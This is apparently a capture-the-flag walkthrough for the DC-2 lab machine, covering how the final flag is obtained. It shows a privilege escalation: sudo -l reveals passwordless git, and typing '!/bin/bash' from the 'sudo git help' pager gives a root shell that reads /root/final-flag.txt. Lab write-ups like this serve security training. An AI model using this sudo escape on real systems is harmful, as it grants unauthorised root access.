


Git (Fith flag)
We got a hint in the previous flag:
“git outta here!!!!”
May be “Git” does not require “root” password.
a) Lets check with sudo -l.
$
sudo
-l
Output:

b) Using “git” editor.
Help command of “git” comes with text editor where we can run command.
Run the following command and go to the end of the help scrolling down and type a “return” and then “!/bin/bash”.
jerry@DC-2
:
~$
sudo
git
help
add
Output:
root@DC-2:/home/jerry#
You are “root”.
c) Go to “/root” directory.
root@DC-2
:/
home
/
jerry#
cd
/
root
root@DC-2
:
~#
ls
Output:
final-flag.txt
d) Show the flag.
root@DC-2
:
~#
cat
final-flag.txt

You got the final flag.
Index